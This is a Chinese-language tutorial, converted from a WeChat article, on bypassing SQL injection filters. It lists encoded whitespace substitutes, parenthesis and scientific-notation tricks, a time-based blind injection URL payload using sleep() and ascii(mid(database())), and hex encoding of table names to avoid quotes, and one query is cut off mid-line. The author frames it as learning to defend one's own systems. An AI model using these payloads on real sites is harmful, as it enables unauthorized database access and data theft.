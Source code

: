 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzU0OTE4MzYzMw==&mid=2247515011&idx=3&sn=29b505a1e1ca15b9b144e3fe685fbad5&chksm=fbb1327dccc6bb6bb1c46f3bb30089f8271d19884e6d7356fab2cc9dc866dcc0648fd9691c4e&mpshare=1&scene=1&srcid=0708MNq6SCZjNrp4G9mQwHIZ&sharer_sharetime=1625734031460&sharer_shareid=7fece245937ac96f04f0fb8e1311fff1#rd)

今天给大家再次分享一篇硬核内容，那就是黑客常用的 SQL 注入绕过技术，还是那句话：我们学渗透技术不是为了攻击别人的系统，而是了解黑客常用的渗透技能，以此来修复我们自己系统中的漏洞，使我们的系统更加健壮，更加安全。

### 1. 绕过空格（注释符 /* */，%a0）

```
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/


```

```
/*  注释 */


```

![](https://mmbiz.qpic.cn/mmbiz_png/2hHcUic5FEwHvMYBXaBBKqlfSNXA161RVU9KYhewiacgMWd0Dh4MspicuutsRL277jrQN7mfxWI4I7IH2HGVfB9Cw/640?wx_fmt=png)

```
select * from users where id=8E0union select 1,2,3
select * from users where id=8.0 select 1,2,3


```

### 2. 括号绕过空格

```
select(user())from dual where(1=1)and(2=2)


```

```
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23


```

### 3. 引号绕过（使用十六进制）

```
select column_name  from information_schema.tables where table_


```

```
select column_name  from information_schema.tables where table_name=0x7573657273


```
